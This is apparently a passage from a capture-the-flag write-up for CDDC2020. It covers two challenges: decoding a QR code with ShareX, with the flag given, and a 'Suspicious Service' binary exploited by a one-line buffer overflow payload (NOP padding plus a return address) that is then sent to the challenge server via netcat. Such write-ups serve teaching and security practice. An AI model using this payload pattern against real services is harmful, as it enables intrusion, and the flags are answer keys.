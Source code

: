 We realised that Unduplicitous Corp uses this code for their assets tagging. But we can't figure out how exactly to decode it, hmm.

Attached Files: barcode.gif

**Solution**

Tool used: https://getsharex.com/
We used the Sharex tool in the end to solve this challenge.
Sharex > tools > QR code > Decode

![](Screenshots/How%20QueeR....png)

**Flag**

```
CDDC20{Qu1Rky_quEeR_qUe57ion4bL3_c0d35s}
```

## Suspicious Service

**Challenge**

While conducting reconnaissance on Unduplicitous Corp, we found a suspicious service. Let's figure out what this is.

ss.chall.cddc2020.nshc.sg 7777

Attached Files: SuspiciousSvc

**Solution**

Reverse engineering and buffer exploitation
python -c ‘print(“\x90”*256+”\x00\x3d\x34\x01”)’ | ./SUSsvc
Now replace “./SUSsvc” with the netcat to the server. Flag will be returned (Server down by time writeup done)
